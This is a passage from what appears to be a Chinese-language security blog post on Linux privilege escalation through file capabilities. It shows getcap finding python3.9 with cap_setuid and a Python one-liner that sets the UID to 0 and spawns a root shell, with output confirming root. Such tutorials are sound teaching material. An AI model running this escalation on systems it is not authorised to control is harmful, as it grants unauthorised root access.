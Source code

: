 要搜索具有功能的二进制文件，可以选择如下命令:

```
test@machine1:/~$ getcap -r / 2>/dev/null
/usr/bin/python3.9 cap_setuid=ep
```

幸运的是，python3.9 具有 cap_setuid 功能，cap_setuid 意味着可以设置所创建进程的 EUID，因此利用该权限，您可以使用如下方法提升到高权限:

```
test@machine1:/~$ python3  -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@machine1:/~$ id
uid=0(root) gid=1001(test) groups=1001(test)
```

现在您已经获得了 root 权限！

在网上搜索，您会发现许多非 root 用户滥用各种 Linux 功能来提升权限的例子。

# 最后的想法

如果您有任何问题或反馈，请随时发表评论。如果你认为这篇博文有帮助，请点击拍手👏按钮下面几下，以示支持！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！